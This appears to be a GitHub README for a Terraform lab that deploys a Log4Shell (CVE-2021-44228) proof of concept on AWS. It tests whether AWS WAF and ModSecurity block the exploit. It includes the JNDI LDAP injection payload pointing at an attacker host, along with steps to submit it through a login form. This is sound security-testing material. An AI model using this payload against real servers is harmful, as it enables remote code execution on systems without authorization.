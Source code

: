 # Readme

## Project Description
This project files demostrate a proof-of-concept of log4j vulnerability (CVE-2021-44228) on AWS using Terraform Infrastructure-as-a-code means.

There are 2 demo in this project:  
1. single-instance contains a vulnerable server, you can use your personal computer to exploit the server, the server should be protected with AWS WAF.
2. double-instance contans 2 services, the vulnerable server can only be access from the reverse proxy server, the reverse proxy should be protected by ModSecurity.

Conclusion:
The 1st demo demostrate a successful exploit using AWS WAF. The 2nd demo was an unsuccessful attempt when ModSecurity is in placed. Removing ModSecurity the exploit will be successful. It may be because ModSecurity is an active project therefore the vulnerable strings has been identified and filtered.


# Credit
This poc was from :
https://github.com/kozmer/log4j-shell-poc  

This medium blog explain how her attempt walkthrough : 
https://chennylmf.medium.com/apache-log4j-shell-poc-exploits-5953c42fa873  

# My testing  

Personally, I tested using Windows + Powershell, cloud machine is Ubuntu 18 LTS. (Exploitation with kali or any linux)
  
# Pre-requisite

1. Installed AWS_CLI  
2. Installed Terraform CLI   
3. Have Access key ready

## RSA KEY

Create via web (Name it 'tf-aws'): https://console.aws.amazon.com/ec2/v2/home?#KeyPairs


## Get Access key
https://us-east-1.console.aws.amazon.com/iamv2/home#/users > Select user > Select section security_credentials

## Set Access key in shell

Powershell:  
`$env:AWS_ACCESS_KEY_ID="<user access key input>"`  
`$env:AWS_SECRET_ACCESS_KEY="<secret key input>"`  
`$env:AWS_DEFAULT_REGION="<region>"`  

  
Linux:  
`export AWS_ACCESS_KEY_ID="<user access key input>"`  
`export AWS_SECRET_ACCESS_KEY="<secret key input>`  
`export AWS_DEFAULT_REGION="<region>"`

# Usage
## Setup EC2 in AWS platform
 `cd single-instance`  
 `terraform init`    
 `terraform apply`   

 After running, an IP / DNS will be listed.

For single-instance, ensure `http:<aws host url>:8080` is accessible  

For double-instance, ensure `http:<aws host url>` is accessible  

\* please note that spining up 'double-instance' takes a lot more time, can use `journalctl -f` after ssh into the system to track progress
  
If you do follow journal, "Reached target Cloud-init target." means its ready state.  
![exploit](./images/ready_state_double-instance-journal.png) 

## Prepare Remote / Localhost client (attacker):
Set execute permission
`chmod +x ../exploit-script-remote.sh`    

Run script with supplied variable   
`../exploit-script-remote.sh`  

Note the payload is displayed end of script similar to `${jndi:ldap://<ip-address>:1389/a}`

## Vulnerable Server:  
Visit `http:<aws host url>:8080`

Copy the payload into the 'username' field then submit forms  

![exploit](./images/attempt-exploit.png) 


## Remark 
JDK file: have ensure the integrity from baidu source is same hash from Oracle  
SHA256          187EDA2235F812DDB35C352B5F9AA6C5B184D611C2C9D0393AFB8031D8198974

## References
Instance:
https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/instance


Spot instance:
https://www.tderflinger.com/en/ec2-spot-with-terraform


SSH:
https://jhooq.com/terraform-ssh-into-aws-ec2/
https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-keypairs.html


[ssh key on the fly]
https://stackoverflow.com/questions/49743220/how-do-i-create-an-ssh-key-in-terraform


Waf:
https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/waf_rule
https://medium.com/kudos-engineering/terraforming-amazons-web-application-firewall-e5c22b7d317d
https://www.linode.com/docs/guides/securing-nginx-with-modsecurity/


Templating:
https://spacelift.io/blog/terraform-templates

AWS AZ ID:
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-regions-availability-zones.html#concepts-availability-zones 

# Things learnt

* (lots of time spent) dont use provision as bash script / use template instead (could better see if could downgrade privilege)
* The RSA key generated from web is more reliable than manually generated from aws-cli if using .pem (the compatibility .pem file to SSH client or AWS server) otherwise use normal rsa key without pem.
* managed to use spot instance instead of normal for some cost saving
* Docker exposing port may overwrite firewall rules
* (lots of time spent) Setting up and Troublehouting networking take lots of time - Route, vpc need 1 sec-group and ec2 host need another sec-group - and both sec-group need to point to vpc
* wget cannot do long download session


# # Time keeping
* Start 06 Jun 11AM UTC+0800 - 07 Jun 4AM (Completed poc+tf+aws -waf) - 17 hours
* Start 07 Jun 1PM UTC+0800 - 08 Jun 5AM (Completed 2nd case where a reverse proxy is used)





